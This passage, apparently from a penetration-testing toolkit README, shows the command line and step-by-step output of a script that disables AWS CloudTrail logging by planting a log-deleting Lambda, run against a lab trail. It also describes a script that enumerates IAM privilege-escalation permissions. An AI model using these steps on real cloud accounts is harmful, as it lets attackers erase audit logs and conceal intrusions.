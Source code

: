 ```
  --policy-name POLICY_NAME
                        name for a policy for that Lambda role
  --function-name FUNCTION_NAME
                        name for AWS Lambda function


bash $ python3 disruptCloudTrailByS3Lambda.py --access-key ASIAXXXXXXXXXXXXXXXX --secret-key Gaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa --token FQoGZX[...] us-west-2

        :: AWS CloudTrail disruption via S3 Put notification to Lambda
        Disrupts AWS CloudTrail logging by planting Lambda that deletes S3 objects upon their creation
        Mariusz Banach / mgeeky '19, <mb@binary-offensive.com>

[.] Will be working on Account ID: 712800000000
[.] Step 1: Determine trail to disrupt
[+] Trail cloudgoat_trail is actively logging (multi region? No).
[.] Trails intended to be disrupted:
	- cloudgoat_trail

[.] Step 2: Create a role to be assumed by planted Lambda
[-] Role with name: cloudtrail_helper_role already exists.
[.] Step 3: Create a policy for that role
[-] Policy with name: cloudtrail_helper_policy already exists.
[.] Step 4: Attach policy to the role
[.] Attaching policy (arn:aws:iam::712800000000:policy/cloudtrail_helper_policy) to the role cloudtrail_helper_role
[-] Policy is already attached.
[.] Step 5: Create Lambda function
[.] 	Using non-disruptive lambda.
[.] Creating a lambda function named: cloudtrail_helper_function on Role: arn:aws:iam::712800000000:role/cloudtrail_helper_role
[+] Function created.
[.] Step 6: Permit function to be invoked on all trails
[.] Adding invoke permission to func: cloudtrail_helper_function on S3 bucket: arn:aws:s3:::90112981864022885796153088027941100000000000000000000000
[.] Step 7: Configure trail bucket's put notification
[.] Putting a bucket notification configuration to 90112981864022885796153088027941100000000000000000000000, ARN: arn:aws:lambda:us-west-2:712800000000:function:cloudtrail_helper_function
[+] Installed CloudTrail's S3 bucket disruption Lambda.
```

Afterwards, one should see following logs in CloudWatch traces for planted Lambda function - if no `--disrupt` option was specified:

```
[*] Following S3 object could be removed: (Bucket=90112981864022885796153088027941100000000000000000000000, Key=cloudtrail/AWSLogs/712800000000/CloudTrail/us-west-2/2019/03/20/712800000000_CloudTrail_us-west-2_20190320T1000Z_oxxxxxxxxxxxxc.json.gz)
```

- **`evaluate-iam-role.sh`** - Enumerates attached IAM Role policies or specified Policy by it's Arn, goes through all of granted permissions and lists those that are known for Privilege Escalation or other risks. If `all` was specified as a role-name, the tool will evaluate all of the user-specified IAM Roles, iteratively. Based on [Rhino Security Labs work](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/). [gist](https://gist.github.com/mgeeky/14685d94af7848e64afefe6fd2341a18)
